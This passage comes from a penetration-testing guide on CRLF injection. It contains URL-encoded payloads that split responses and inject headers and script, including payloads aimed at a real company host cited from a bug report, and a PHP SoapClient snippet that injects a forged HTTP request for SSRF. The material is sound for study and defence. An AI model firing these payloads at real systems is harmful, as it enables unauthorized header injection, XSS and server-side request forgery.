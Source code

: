 **Other example: (from** [**https://www.acunetix.com/websitesecurity/crlf-injection/**](https://www.acunetix.com/websitesecurity/crlf-injection/)**)**

```
http://www.example.com/somepage.php?page=%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2025%0d%0a%0d%0a%3Cscript%3Ealert(1)%3C/script%3E
```

#### In URL Path

You can send the payload **inside the URL path** to control the **response** from the server (example from [here](https://hackerone.com/reports/192667)):

```
http://stagecafrstore.starbucks.com/%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E
http://stagecafrstore.starbucks.com/%3f%0D%0ALocation://x:1%0D%0AContent-Type:text/html%0D%0AX-XSS-Protection%3a0%0D%0A%0D%0A%3Cscript%3Ealert(document.domain)%3C/script%3E
```

Check more examples in:

{% embed url="https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/crlf.md" %}

### HTTP Header Injection

HTTP Header Injection, often exploited through CRLF (Carriage Return and Line Feed) injection, allows attackers to insert HTTP headers. This can undermine security mechanisms such as XSS (Cross-Site Scripting) filters or the SOP (Same-Origin Policy), potentially leading to unauthorized access to sensitive data, such as CSRF tokens, or the manipulation of user sessions through cookie planting.

#### Exploiting CORS via HTTP Header Injection

An attacker can inject HTTP headers to enable CORS (Cross-Origin Resource Sharing), bypassing the restrictions imposed by SOP. This breach allows scripts from malicious origins to interact with resources from a different origin, potentially accessing protected data.

#### SSRF and HTTP Request Injection via CRLF

CRLF injection can be utilized to craft and inject an entirely new HTTP request. A notable example of this is the vulnerability in PHP's `SoapClient` class, specifically within the `user_agent` parameter. By manipulating this parameter, an attacker can insert additional headers and body content, or even inject a new HTTP request entirely. Below is a PHP example demonstrating this exploitation:

```php
$target = 'http://127.0.0.1:9090/test'; 
$post_string = 'variable=post value';
$crlf = array(
    'POST /proxy HTTP/1.1',
    'Host: local.host.htb',
    'Cookie: PHPSESSID=[PHPSESSID]',
    'Content-Type: application/x-www-form-urlencoded',
    'Content-Length: '.(string)strlen($post_string),
    "\r\n",
    $post_string
);

$client = new SoapClient(null,
    array(
        'uri'=>$target,
        'location'=>$target,
        'user_agent'=>"IGN\r\n\r\n".join("\r\n",$crlf)
    )
);

# Put a netcat listener on port 9090
$client->__soapCall("test", []);
```